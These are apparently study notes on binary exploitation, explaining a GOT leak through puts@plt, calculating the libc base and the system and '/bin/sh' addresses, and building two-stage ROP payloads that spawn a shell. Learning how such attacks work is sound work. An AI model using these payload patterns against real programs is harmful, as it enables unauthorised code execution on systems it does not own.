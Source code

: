 # 1. GOT leak

By making use of puts@plt and puts@got

## Normal flow when calling puts("hello"):
```xl
1. Code calls puts@plt
2. First time:
   puts@plt -> dynamic linker -> resolves real puts address -> stores in puts@got
   Future calls: puts@plt -> puts@got -> real puts in libc

3. So it goes: 
   puts@plt -> checks puts@got -> jumps to 0x7ffff7a649c0 (real puts in libc)
```

## Our exploit flow when doing puts(puts_got):
```apache
1. We make puts print the contents of its own GOT entry
2. Instead of puts printing a string, we give it address 0x601018 (puts_got)
3. puts reads from 0x601018 and prints what's there: 0x7ffff7a649c0
4. 0x7ffff7a649c0 is the actual address of puts in libc!
```


The key difference:

- Normal: PLT uses GOT as a lookup table to find real function
- Exploit: We make puts print what's IN the GOT table instead of using it for lookup

This is why it's called a "GOT leak" - we're leaking the contents of the GOT table which contains real libc addresses!


```apache
Normal puts("hello"):
- puts@plt receives address 0x4006xx where "hello" string is stored
- That address contains: 68 65 6c 6c 6f 00 (hello\0)
- puts reads from that address until it hits null byte

Our exploit puts(puts_got):
- puts@plt receives address 0x601018 (puts_got)
- That address contains: 0x7ffff7a649c0 (actual puts address)
- puts reads and prints this address as bytes
```

```c
// Normal usage
char str[] = "hello";  // stored at 0x4006xx
puts(str);  // puts receives 0x4006xx, prints "hello"

// Our exploit
void* got_entry = 0x601018;  // address of puts_got
puts(got_entry);  // puts receives 0x601018, prints bytes at that location
```



# 2. Calculate libc base

```py
# Example:
puts_leak = leaked_address
libc_base = puts_leak - libc.symbols['puts']  # Subtract puts offset
```


# 3. calculate system address 
   
```py
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh')) # whats `next`
```

# 4. Hijack GOT entry:
- Either overwrite puts@got with system() address
- Or create ROP chain to call system("/bin/sh")


The code idea is 

```pgsql
1. We leaked puts@got -> know where libc is
2. Now we know where everything in libc is:
   - system()
   - "/bin/sh" string
   - other useful functions
3. We can make next function call go to system() instead
```

Common pattern

```python
# First payload: Leak libc
payload1 = pad + pop_rdi + puts_got + puts_plt + main

# Second payload: Call system
payload2 = pad + pop_rdi + bin_sh_addr + system_addr
```